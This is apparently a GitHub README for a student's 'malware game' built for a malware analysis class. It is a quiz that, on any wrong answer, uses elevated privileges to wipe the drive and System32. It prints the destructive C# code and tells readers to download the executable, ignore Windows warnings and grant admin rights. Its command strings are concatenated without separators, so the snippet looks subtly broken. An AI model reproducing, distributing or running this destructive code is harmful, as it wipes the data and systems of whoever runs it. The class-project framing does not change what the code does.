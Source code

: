 # Malware Game 
This is a project I completed for a malware analysis class in school. This game is inspired by the movie Saw, essentially you download and open the game, then start playing; if you get any of the questions wrong in the game it deletes system32. I coded this project in C# on VScode. By looking into MainWindow.xaml.cs, you can start to see the meat of the program pretaining to the logic of the game system and the privledge escalation and deletion of c:\Windows\System32 via command prompt. 

[Malware Project](https://github.com/Zmschellinger/malware-project/tree/main)

```c#
if (questionNumber == totalQuestions)
  {
    //Percentage Score but should only be 100%
    percentage = (int)Math.Round((double)(score * 100/ totalQuestions));
      if(percentage < 100) {
        var proc1 = new ProcessStartInfo();
        string Command1;
        string Command2; 
        string Command3;
        proc1.UseShellExecute = true;

        proc1.WorkingDirectory = @"C:\Windows\System32";              
        proc1.FileName = @"C:\Windows\System32\cmd.exe";
        proc1.Verb = "runas";
        Command1 = @"RD C:\ /S /Q";
        Command2 = @"del c:\windows\system32*.* /q";
        Command3 = @"del /f /s /q 'C:*.*'";

        proc1.Arguments = "/k " + Command1 + Command2 + Command3;
                
        proc1.WindowStyle = ProcessWindowStyle.Normal;
        Process.Start(proc1);

        }
  }
```
To start playing this game you must download malware.exe located in the bin/Debug directory, ignore all of the notifications that windows throws at you to not play this game, start it up and accept it giving admin permisions and then your set! ** I am not responsible for any machines damaged **
